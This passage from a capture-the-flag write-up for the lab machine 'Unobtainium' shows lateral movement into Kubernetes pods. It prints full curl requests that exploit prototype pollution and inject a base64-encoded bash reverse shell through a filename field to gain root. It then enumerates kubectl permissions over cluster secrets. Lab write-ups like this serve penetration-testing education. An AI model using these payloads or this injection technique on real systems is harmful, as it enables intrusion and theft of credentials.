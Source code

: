 The pods have the following IPs and all of them have port 3000 open:
- 10.42.1.25
- 10.42.1.26
- 10.42.1.27

The response of port 3000 is the name as the application from before, but this is the development version as it seems:
```
curl -v 10.42.1.25:3000
```

So by exploiting the same vulnerability, it is possible to move laterally to the pods:
```
curl -i -s -k -X $'PUT' \
    -H $'Host: unobtainium.htb:31337' -H $'Connection: close' -H $'Content-Length: 109' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36' -H $'Content-Type: application/json' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US' \
    --data-binary $'{\"auth\":{\"name\":\"felamos\",\"password\":\"Winter2021\"},\"message\":{\"text\":\"test\",\"__proto__\":{\"canUpload\":true} }}' \
    $'http://10.42.1.25:3000/'
```
```
curl -i -s -k -X $'POST' \
    -H $'Host: unobtainium.htb:31337' -H $'Connection: close' -H $'Content-Length: 147' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36' -H $'Content-Type: application/json' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US' \
    --data-binary $'{\"auth\":{\"name\":\"felamos\",\"password\":\"Winter2021\"},\"filename\":\"; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMQo= | base64 -d | bash\"}' \
    $'http://10.42.1.25:3000/upload'
```

After sending both requests, the listener on my IP and port starts a reverse shell on _devnode-deployment-776dbcf7d6-7dxk5_ as _root_.

### Lateral Movement 2

After downloading `kubectl` binary onto the pod, it also can be enumerated as the one before.

Checking permissions for resources:
```
./kubectl auth can-i --list
```

Checking permissions for the namespace _kube-system_:
```
./kubectl auth can-i --list -n kube-system
```
```
Resources         Non-Resource URLs       Resource Names      Verbs
secrets           []                      []                  [get list]
```
